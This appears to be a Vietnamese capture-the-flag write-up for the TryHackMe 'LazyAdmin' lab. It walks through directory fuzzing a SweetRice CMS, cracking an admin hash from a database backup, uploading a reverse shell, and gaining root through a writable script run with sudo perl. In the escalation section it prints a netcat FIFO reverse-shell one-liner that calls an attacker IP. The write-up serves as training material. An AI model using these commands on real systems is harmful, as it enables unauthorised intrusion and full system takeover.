# [THM] LazyAdmin write-up

- IP: 10.10.183.130

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.183.130



Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Kiểm tra giao diện web thì chưa phát hiện điều gì bất thường ta tiếp tục scan thư mục ẩn bằng công cụ ffuf
> ffuf -u "http://10.10.183.130/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt



Ở bước này ta chỉ thu thập được thông tin website sử dụng CMS SweetRice. Vậy nếu sử dụng CMS thì nó có thể sẽ còn một số thư mục ẩn khác (ví dụ: trang đăng nhập admin) nên ta tiếp tục scan bằng ffuf
> ffuf -u "http://10.10.183.130/content/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt



Không nằm ngoài dự đoán chúng ta đã tiếp tục thu thập được một số thư mục ẩn. Trong số thư mục ẩn trên ta khám phá và nhận thấy thư mục `/as` là trang đăng nhập admin, thừ mục `/inc` chứa rất nhiều thông tin nhạy cảm như database và cấu hình.





Trong thư mục `/inc` ta nhận thấy tiếp tục có thư mục `/mysql_backup` là nhạy cảm. Đúng là như vậy khi truy cập vào ta có thể lấy được file backup của database



Trong file database backup ta đã tìm kiếm được thông tin về tài khoản và mật khẩu dưới dạng hash của admin 

Khi phân tích trên [cyberchef](https://gchq.github.io/CyberChef/#recipe=Analyse_hash()&input=NDJmNzQ5YWRlN2Y5ZTE5NWJmNDc1ZjM3YTQ0Y2FmY2I) và sau đó ta thực hiện decrypt ở [crackstation](https://crackstation.net/) để nhận mật khẩu bản rõ




## Exploit

Đã đăng nhập được với tài khoản vừa tìm được. Tại dashboard ta nhận thấy có phần Ads và trong thư mục `inc` cũng có thư mục `/ads` vậy ta thử upload reverse shell lên xem sao. Nội dung file reverse shell đã có upload ở 1 số trước (Plotted-TMS)

Sau khi upload ta đã thấy file đã nằm trên server



Tạo **netcat listener** trên máy attacker và truy cập vào file đó trên web ta đã nhận được shell và thực hiện tìm kiếm user flag

## user.txt



## Privilege escalation



Thực hiện kiểm tra và nhận thấy lệnh perl sẽ được thực hiện với quyền root mà không cần mật khẩu. Kiểm tra quyền và xem nội dung file `/home/itguy/backup.pl` để xem có thực hiện chỉnh sửa và leo thang đặc quyền được không



Ta không có quyền chỉnh sửa file `backup.pl` nhưng trong nội dung file ta thấy có đề cập tới file `/etc/copy.sh` vậy ta tiếp tục làm điều tương tự với file đó



Có thể thấy ta có quyền để tận dụng và sửa file `copy.sh` này để chèn reverse shell
```sh
www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f" > copy.sh
<;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f" > copy.sh         
www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f
www-data@THM-Chal:/etc$ 
```
Sau đó tiếp tục tạo **netcat listener** trên máy attacker và chạy câu lệnh `sudo /usr/bin/perl /home/itguy/backup.pl` trên web shell. Ngay lập tức ta sẽ nhận được root shell

## root.txt


